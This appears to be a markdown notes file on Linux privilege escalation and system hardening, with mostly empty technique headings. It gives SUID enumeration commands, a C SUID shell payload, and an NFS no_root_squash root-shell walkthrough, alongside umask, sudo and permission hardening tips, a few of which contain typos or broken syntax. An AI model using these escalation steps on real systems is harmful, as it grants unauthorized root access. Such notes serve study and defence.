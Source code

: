 # Linux-Privilege-Escalation
This document contains a list of privilege escalation techniques in Linux and how to harden the system to prevent them.

[Technicques](https://book.hacktricks.xyz/linux-hardening/privilege-escalation) 

## Arbitrary File Write to Root

## Cisco - vmanage

## Containerd (ctr) Privilege Escalation

## D-Bus Enumeration & Command Injection Privilege Escalation

## Docker Security


## Escaping from Jails


## euid, ruid, suid

SUID or GUID, when set, allows the process to execute under the specified user or group.
List all binary with suid/guid:
```cmd
find / -perm -4000 -exec ls -ld {} \; 2>/dev/null
find / -perm -u=s -exec ls -ld {} \; 2>/dev/null
find / -perm -2000 -exec ls -ld {} \; 2>/dev/null
find / -perm -g=s -exec ls -ld {} \; 2>/dev/null
```
Using [GTFOBins](https://gtfobins.github.io/) to privesc and get a shell.

Can write a SetUID binary and get a shell:
```C++
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setresuid(1000, 1000, 1000);
    system("/bin/bash");
    return 0;
}
```

## Interesting Groups - Linux Privesc


## Logstash


## ld.so privesc exploit example


## Linux Active Directory


## Linux Capabilities


## NFS no_root_squash/no_all_squash misconfiguration PE
This is a misconfiguration in the NFS configuration. If the options no_root_squash or no_all_squash are found in ```/etc/exports```, then you can access it from a client and write inside that directory as if you were the local root of the machine.
```cmd
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
Or use a **C SUID payloads** (see in [euid, ruid, suid]())

[NFS_privesc](https://www.errno.fr/nfs_privesc.html)

## Node inspector/CEF debug abuse


## Payloads to execute


## RunC Privilege Escalation


## SELinux


## Socket Command Injection


## Splunk LPE and Persistence


## SSH Forward Agent exploitation

## Wildcards Spare tricks

# Hardening (System configuration)
[Linux configuration](https://cyber.gouv.fr/en/publications/configuration-recommendations-gnulinux-system)
## Patririoning
## Account
## Access control
### Unix traditional model
1. Change default usmask for the shell to 0077.
```cmd
echo  'umask 0077' >> /etc/profile'
```
Change default usmask for services to 0027. Thit value can be defined directly in configuration file of the service **(UMask=0027)**.

[Understanding UMASK value](https://www.cyberciti.biz/tips/understanding-linux-unix-umask-value-usage.html)

2. Create a group and ony member in this group can run sudo
```cmd
chmod 760 /usr/bin/sudo
```
3. Sudo configuration guidelines (edit /etc/sudoers)

| Enable | Value |
| ------------- |-------------|
| noexec| applies the **NOEXEC** tag by defaulr on the command|
| requiretty| requires the user to have a tty login|
| use_pty | users a pseudo-tty when a command is executed|
| umask=0077 | forces umask to more restrictive mask |
| ignore_dot | ignores the "." in $PATH|
| env_reset | resets the env variables |

4. Restrict the normal user to run only limited set of commands
- Using restricted shell
```cmd
# create the restricted shell
cp /bin/bash /bin/rbash
# modify the target user
usermod -s /bin/rbash {username}
```
### AppArmor
### SELinux


## Files and directories
### Sensitive files and directories
1. Limiting the rights
2. Changing the secrets and access rights as soon as possible
### Named ipc, sockets or pipes
### Access rights
1. Avoiding files or dir without a known user.
```cmd
find / \( -nouser -o nogroup \) -ls 2>/dev/null
```
2. Set **sticky bit**
3. Ignores setuid / setgid bits and exec right (especial root rights). 
```cmd
chmod 744 {filename}
chmod u-s {filename}
chmod g-s {filename}
```
